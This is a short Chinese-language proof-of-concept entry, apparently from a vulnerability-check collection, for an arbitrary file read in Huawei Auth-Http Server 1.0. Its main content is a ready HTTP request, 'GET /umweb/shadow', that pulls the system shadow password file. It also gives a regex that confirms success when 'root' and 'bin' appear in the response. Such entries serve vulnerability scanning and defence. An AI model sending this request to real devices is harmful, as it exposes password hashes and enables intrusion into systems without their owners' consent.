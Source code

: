 ﻿# 华为 Auth-Http Serve 任意文件读取

> 更新时间：2024-01-15

> 漏洞编号：

> 漏洞说明：Huawei Auth-Http Server 1.0

> 漏洞特征：

> 验证脚本：HTTP

```
GET /umweb/shadow HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：


> 验证文件来源：华为 Auth-Http Serve 任意文件读取.poc
